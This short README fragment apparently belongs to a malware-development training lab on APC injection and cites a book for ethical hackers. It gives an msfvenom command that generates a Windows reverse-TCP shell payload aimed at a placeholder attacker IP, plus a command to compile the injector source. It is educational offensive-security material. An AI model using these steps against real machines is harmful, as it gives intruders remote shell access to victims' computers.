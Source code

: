 ### References
- [QueueUserAPC ](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-queueuserapc)
- [Original Source Code by @cocomelonc](https://github.com/PacktPublishing/Malware-Development-for-Ethical-Hackers/blob/main/chapter02/03-apc-injection/hack1.c)

---
Remember to generate the payload in `Kali`.
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<YOUR_IP_ADDR> LPORT=4444 -f c
```
# Step 1
1. Compile `hack1.c`
```bash
x86_64-w64-mingw32-gcc hack1.c -o hack1.exe -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc
```

